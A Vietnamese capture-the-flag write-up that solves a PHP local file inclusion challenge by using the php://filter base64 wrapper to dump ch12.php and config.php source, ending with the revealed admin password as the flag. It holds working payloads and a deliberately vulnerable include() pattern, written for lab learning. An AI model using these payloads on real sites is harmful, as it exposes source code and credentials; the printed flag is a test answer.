


# PHP - Filters

**25 Points - Medium**

**Title:**

FileManager v 0.01

**Statement**

Retrieve the administrator password of this application.

## Analysis:

Challenge này phải được solve trước cái `Local File Inclusion - Double encoding`. Như tiêu đề `Filters`, chúng ta sẽ sử dụng wrapper `filter` để giải. 

> Nhắc lại tí: Đối với dạng LFI có một kỹ thuật là [PHP wrapper](https://www.php.net/manual/en/wrappers.php). Wrappers là một code bổ sung cho một stream để xử lý các giao thức / mã hóa cụ thể. Ví dụ: wrappers http biết cách dịch một URL thành một HTTP request cho một file trên máy chủ từ xa. Khi làm việc với wrapper vì luồng stream được xử lý và được read ra nên ouput sẽ là nội dung của một file nào đó (do mình tùy chọn). Tham khảo [thêm](https://www.php.net/manual/en/intro.stream.php#:~:text=Introduction%20%C2%B6&text=A%20wrapper%20is%20additional%20code,file%20on%20a%20remote%20server.)

Cứ phân tích từ từ đã, thử truy cập vào thư mục parent. Set giá trị `..`:


Lỗi không cho truy cập vào thư mục nằm ngoài thư mục gốc của ứng dụng `/challenge/web-serveur/ch12`. Nhưng ta biết ở đây có file `ch12.php`.

Thử load mã nguồn từ trang khác dùng RFI như `https://github.com/` nhưng mà server đã chặn:

<p align="center"></p>

`Warning: include(): https:// wrapper is disabled in the server configuration by allow_url_include=0 in /challenge/web-serveur/ch12/ch12.php on line 26`. Bên server đã cấu hình loại bỏ (disabled) wrapper liên kết ra external site rồi, nên không thể tìm thấy wrapper này.

Ta chỉ còn cách follow theo bài dùng *wrapper filter* để solve. Đưa toàn bộ nội dung file vào stream và qua bộ lọc base64-encode để hiển thị code ra màn hình. 

> NOTE: Tham khảo toàn bộ filter [tại đây](https://www.php.net/manual/en/filters.php)

## Solution:

Sử dụng payload `php://filter/convert.base64-encode/resource=<filename>` với các file đã biết trước:

- `accueil.php`. Payload: `?inc=php://filter/convert.base64-encode/resource=accueil.php`

<p align="center"></p>

Output là source code được encode với **base64**. Dùng command (Linux) :

```bash
echo "<encoded-base64-string>" | base64 -d"
```

Ta có source của file `accueil.php`:

```
<h3>Welcome !</h3>
<p>Please login to view the files.</p> 
```

- `ch12.php`. Payload: `?inc=php://filter/convert.base64-encode/resource=ch12.php`

<p align="center"></p>

Output là source code được encode với **base64**. Dùng command (Linux) :

```bash
echo "<encoded-base64-string>" | base64 -d"
```

Ta có source của file `accueil.php`:

```php
<h3>Welcome !</h3>
<p>Please login to view the files.</p> 
```

Decode base64 tương tự, ta có codebase:

```php
<?php

$inc="accueil.php";
if (isset($_GET["inc"])) {
    $inc=$_GET['inc'];
    if (file_exists($inc)){
        $f=basename(realpath($inc));
        if ($f == "index.php" || $f == "ch12.php"){
            $inc="accueil.php";
        }
    }
}

include("config.php");


echo '
  <html>
  <body>
    <h1>FileManager v 0.01</h1>
    <ul>
        <li><a href="?inc=accueil.php">home</a></li>
        <li><a href="?inc=login.php">login</a></li>
    </ul>
';
include($inc);

echo '
  </body>
  </html>
';
?>
```  

Ở đây ta thấy có file `config.php` được **include()** vào, khả năng cao là flag. Thực hiện tương tự trên:

- `config.php`. Payload: `?inc=php://filter/convert.base64-encode/resource=config.php`

Đọc source code file này ra:

```php
<?php
$username="admin";
$password="DAPt9D2mky0APAF";
```

> NOTE: Đọc file `login.php` cũng đi đến hướng đúng.

<p align="center"></p>

Flag: **DAPt9D2mky0APAF**
